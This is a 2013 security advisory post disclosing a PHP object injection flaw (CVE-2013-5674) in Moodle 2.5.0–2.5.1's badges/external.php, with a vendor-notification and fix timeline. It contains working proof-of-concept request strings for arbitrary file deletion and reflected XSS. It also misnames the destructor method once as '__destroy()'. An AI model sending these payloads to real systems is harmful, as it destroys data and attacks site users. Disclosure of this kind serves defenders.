 ```yaml
---
comments: true
date: 2013-09-16 12:58:30
layout: post
slug: 2013-09-16-moodle-2_5_0_1-badges-external-object-injection
title: Moodle 2.5.0-1 badges/external.php PHP Object Injection
categories:
- Security
- Vulnerabilities
- Web Apps
tags:
- CVE-2013-5674
- advisory
- moodle
- pentesting
- security
- vulnerability
- xss
- php
- object injection
---
```


Moodle CMS is prone to an object injection vulnerability, which can be exploited to execute internal PHP code passing malicious user-supplied input to an internal `unserialize()` PHP function.

The attacker can inject ad-hoc serialized object into the application scope, reusing internal PHP code snippets maliciously. In this scenario the attacker can delete arbitrary files and conduct XSS attacks.

The vulnerability affects Moodle CMS versions 2.5.0 and 2.5.1

## Vulnerability 

The affected file `badges/external.php` unserializes the user input in the line 35

```php
$json = required_param('badge', PARAM_RAW);
$badge = new external_badge(unserialize($json));
```

## POC

To exploit this kind of vulnerability is necessary to reuse some object method called during the life time of the object instance. As explained in the PHP [manual](http://php.net/manual/en/language.oop5.magic.php) magic methods documentation, two methods are necessarly called:

  - `__wakeup()`: This method is called at the wake up of the sleeping unserialized object.
  - `__destroy()`: As in other object-oriented languages, the destructor method is called at the end of the instance life.

Moreover two other `__get(string $name)` methods are called during this particular object instance lifetime, in the form of `instance->$name`.

  - `__get("assertion")`: Called in badges/renderer.php:377 `$issued->assertion` 
  - `__get("imageUrl")`: Called in badges/renderer.php:389 `array('src' => $issued->imageUrl)`

### FILE DELETE

The method `csv_export_writer::__destruct()` in lib/csvlib.class.php:538 contains

```php
    public function __destruct() {
        fclose($this->fp);
        unlink($this->path);
    }
```

This can be exploited to delete arbitrary files passing the serialized object. Here the PoC to delete `/path/of/the/file/to/delete`:

```html
http://localhost/badges/external.php?badge=O:17:"csv_export_writer":1:{s:4:"path";s:27:"/path/of/the/file/to/delete";}
```

### XSS

The vulnerable script `badges/external.php` prints in line 43 the HTML code rendered using the injected unserialized `$badge` object 

```php
echo $output->render($badge);
```

The rendered HTML page built in the `core_badges_renderer::render_external_badge()` reflects the two object variable `assertion` and `imageurl` that can be used as XSS vector. Here the PoC of the XSS:

```html
http://localhost/badges/external.php?badge=O:8:"stdClass":2:{s:8:"imageUrl";s:0:"";s:9:"assertion";O:8:"stdClass":1:{s:5:"badge";O:8:"stdClass":1:{s:6:"issuer";O:8:"stdClass":1:{s:4:"name";s:30:"<script>alert(1);</script><!--";}}}}
```

## CVE REFERENCE

The Common Vulnerabilities and Exposures project (cve.mitre.org) has assigned the name [CVE-2013-5674](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2013-5674) to the vulnerability

## DISCLOSURE

* 29/Jul/2013: Vendor alerted with MDL-40924 ticket
* 02/Sep/2013: Released fix commit 2d3c0faef by Yuliya Bozhko
* 07/Sep/2013: Moodle release 2.5.2
* 16/Sep/2013: Public disclosure

